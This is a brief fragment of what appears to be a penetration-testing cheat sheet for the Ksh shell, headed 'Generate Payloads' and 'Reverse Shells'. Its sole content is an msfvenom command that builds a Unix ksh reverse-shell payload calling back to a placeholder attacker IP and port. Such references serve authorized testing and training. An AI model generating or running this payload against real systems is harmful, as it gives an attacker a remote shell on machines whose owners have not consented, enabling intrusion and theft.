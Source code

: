 # Ksh

## 01 - Generate Payloads

### 1.1 - Reverse Shells

```
$ msfvenom -p cmd/unix/reverse_ksh lhost=<IP> lport=<PORT>
```